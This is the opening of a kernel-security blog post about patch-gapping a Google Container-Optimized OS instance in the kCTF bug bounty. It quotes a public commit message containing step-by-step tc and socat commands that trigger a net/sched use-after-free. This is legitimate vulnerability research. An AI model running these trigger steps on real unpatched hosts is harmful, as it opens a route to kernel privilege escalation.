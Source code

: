 ```yaml
---
layout: post
title: "Patch-Gapping the Google Container-Optimized OS for $0"
date: 2025-02-13
classes: wide
header:
  teaser: /assets/images/avatar.jpg
tags:
  - kCTF
  - CTF
  - Kernel
  - Exploit
---
```


## Background
I'm trying to really focus this year on developing technically in a few ways. Part of that is reviewing kCTF entries. This helps me get a sense of what subsystems are producing the most bugs at the moment in the program and also keeps me up to date on buggy patterns to look for. Also I get to shamelessly steal players' exploitation techniques as well. A lot of recent bugs have come from `/net/sched` so I was looking at patches for the subsystem and found a patch that claimed an exploitable UAF was possible. That patch is here: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=bc50835e83f60f56e9bec2b392fb5544f250fb6f. I didn't realize at the time, but "Lion Ackermann" mentioned in the patch as the bug discoverer (and presumably exploiter) is a kCTF player. I checked and discovered that at the time I found the patch the COS 105 instance in kCTF was still vulnerable to this bug. I stopped looking then, but lesson learned, the LTS instance was also still vulnerable. I don't know exactly how the rules work, but this bug was exploited as a 0day entry as per the public kCTF responses spreadsheet in December, but at the time I started working on it, there were no patch links in the spreadsheet for this bug and the instances remained unpatched. At this point I started trying to figure out the bug and possibly exploit it. My goal was to patch-gap the COS 105 instance with a 1day entry. Shortly after I began investigating the bug, a new release was announced, but luckily the new instances would be vulnerable as well as they had also not been patched. Since the COS 105 slot was unexploited, and the upcoming COS 105 instance would also be vulnerable, I mistakenly took this as a signal to not rush as the instance would probably remain unexploited while I worked on the project slowly. In hindsight, I should've worked harder on this as the COS 105 instance was exploited a few hours before I finished. It may be moot anyways since the bug was exploited previously in the program as a 0day, still not sure about that. Anyways, I encountered some self-inflicted roadblocks that really hindered my progress, we'll get into those. Next time I'll work harder and dedicate more time to the effort instead of just a few hours here and there at night. 

## Patch Analysis
The patch text is very descriptive and provides a nice proof-of-concept to reproduce the buggy condition:
```terminal
net: sched: Disallow replacing of child qdisc from one parent to another
Lion Ackermann was able to create a UAF which can be abused for privilege
escalation with the following script

Step 1. create root qdisc
tc qdisc add dev lo root handle 1:0 drr

step2. a class for packet aggregation do demonstrate uaf
tc class add dev lo classid 1:1 drr

step3. a class for nesting
tc class add dev lo classid 1:2 drr

step4. a class to graft qdisc to
tc class add dev lo classid 1:3 drr

step5.
tc qdisc add dev lo parent 1:1 handle 2:0 plug limit 1024

step6.
tc qdisc add dev lo parent 1:2 handle 3:0 drr

step7.
tc class add dev lo classid 3:1 drr

step 8.
tc qdisc add dev lo parent 3:1 handle 4:0 pfifo

step 9. Display the class/qdisc layout

tc class ls dev lo
 class drr 1:1 root leaf 2: quantum 64Kb
 class drr 1:2 root leaf 3: quantum 64Kb
 class drr 3:1 root leaf 4: quantum 64Kb

tc qdisc ls
 qdisc drr 1: dev lo root refcnt 2
 qdisc plug 2: dev lo parent 1:1
 qdisc pfifo 4: dev lo parent 3:1 limit 1000p
 qdisc drr 3: dev lo parent 1:2

step10. trigger the bug <=== prevented by this patch
tc qdisc replace dev lo parent 1:3 handle 4:0

step 11. Redisplay again the qdiscs/classes

tc class ls dev lo
 class drr 1:1 root leaf 2: quantum 64Kb
 class drr 1:2 root leaf 3: quantum 64Kb
 class drr 1:3 root leaf 4: quantum 64Kb
 class drr 3:1 root leaf 4: quantum 64Kb

tc qdisc ls
 qdisc drr 1: dev lo root refcnt 2
 qdisc plug 2: dev lo parent 1:1
 qdisc pfifo 4: dev lo parent 3:1 refcnt 2 limit 1000p
 qdisc drr 3: dev lo parent 1:2

Observe that a) parent for 4:0 does not change despite the replace request.
There can only be one parent.  b) refcount has gone up by two for 4:0 and
c) both class 1:3 and 3:1 are pointing to it.

Step 12.  send one packet to plug
echo "" | socat -u STDIN UDP4-DATAGRAM:127.0.0.1:8888,priority=$((0x10001))
step13.  send one packet to the grafted fifo
echo "" | socat -u STDIN UDP4-DATAGRAM:127.0.0.1:8888,priority=$((0x10003))

step14. lets trigger the uaf
tc class delete dev lo classid 1:3
tc class delete dev lo classid 1:1

The semantics of "replace" is for a del/add _on the same node_ and not
a delete from one node(3:1) and add to another node (1:3) as in step10.
While we could "fix" with a more complex approach there could be
consequences to expectations so the patch takes the preventive approach of
"disallow such config".
```
